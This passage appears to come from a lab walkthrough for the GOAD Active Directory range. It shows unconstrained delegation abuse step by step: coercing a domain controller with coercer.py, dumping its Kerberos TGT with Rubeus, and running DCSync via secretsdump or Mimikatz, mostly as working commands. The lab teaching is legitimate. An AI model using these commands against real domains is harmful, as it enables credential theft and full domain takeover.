 - And now force a coerce of the DC kingslanding to the DC winterfell.

```bash
python3 coercer.py -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell
```

- We look on the triage again :

```powershell
[Rubeus.Program]::MainString("triage")
```

- And now the tgt of kingslanding is present

![deleg_unconcstrained_after_coerce.png](/assets/blog/GOAD/deleg_unconcstrained_after_coerce.png)


- To extract it (relaunch coercer and 1 sec later launch the following dump command): (i don't know why but the rubeus monitor mode doesn't want to run in execute assembly)

```
[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");
```

![deleg_unconcstrained_dump.png](/assets/blog/GOAD/deleg_unconcstrained_dump.png)

- We now have the TGT of the domain controller

- Let's continue on linux to pass the ticket and launch dcsync with secretdump :
  - copy the ticket without space and return line (in vim i do : `:%s/\s*\n\s*//g`)
  - convert the ticket to ccache
  - use the kerberos ticket and launch secretdump

```bash
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/workspace/unconstrained/ticket.ccache
secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```

![deleg_unconcstrained_secrets_dump.png](/assets/blog/GOAD/deleg_unconcstrained_secrets_dump.png)

> Another way of exploitation, is to do a ptt with Rubeus and launch a dcsync with Mimikatz. Having a domain-joined machine should make this attack easier.

```powershell
.\Rubeus.exe ptt /ticket:doIFrzCCBaugAwIB......
.\mimikatz.exe "lsadump::dcsync /domain:sevenkingdoms.local /user:kingslanding$" "exit"
```

![image](https://github.com/Mayfly277/mayfly277.github.io/assets/18597330/d1b83fd7-1c9e-4791-89a5-4489f287b9b2)


> Unless you didn't notice, the unconstrained delegation abuse was here exploited to pass from the child to the parent domain ;) 
{: .prompt-tip }

## Constrained Delegation
